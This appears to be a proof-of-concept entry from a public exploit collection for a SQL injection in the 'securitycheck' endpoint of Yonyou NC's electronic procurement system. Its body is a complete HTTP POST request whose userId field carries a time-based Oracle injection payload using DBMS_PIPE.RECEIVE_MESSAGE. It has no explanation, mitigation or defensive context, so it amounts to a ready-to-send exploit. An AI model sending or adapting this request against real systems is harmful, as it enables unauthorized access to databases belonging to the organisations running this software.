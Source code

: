 # yonyou_securitycheck_sqli
from: https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8Bnc%E7%94%B5%E5%AD%90%E9%87%87%E8%B4%AD%E4%BF%A1%E6%81%AF%E7%B3%BB%E7%BB%9Fsecuritycheck%E5%AD%98%E5%9C%A8sql%E6%B3%A8%E5%85%A5.md
2024.5.27
```
POST /ebs/securitycheck HTTP/1.1
Host: ip
Content-Length: 237
Method: POST securitycheck HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Accept: */*
Origin: http://ip
Referer: http://ip/ebs/core/login/login.jsp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=691A17DA3C872E1E35BACBE499022DE4.server; JSESSIONID=D80A3F043CD6E898C2076206848019D9.server
Connection: close

&accountCode=ERP%E7%B3%BB%E7%BB%9F&accountCodeValue=0001&datasource=design&corpCode=&maxWindow=0&compressStream=1&corpName=&workdate=123-09-22&userId=11' AND 1129=DBMS_PIPE.RECEIVE_MESSAGE(CHR(106)||CHR(121)||CHR(69)||CHR(110),5) AND 'Fjnc'='Fjnc&password=11&&pageUniqueId=328c7f3e-aea1-4bcf-bd91-05e0d2804719&pageId=login&isAjax=1
```
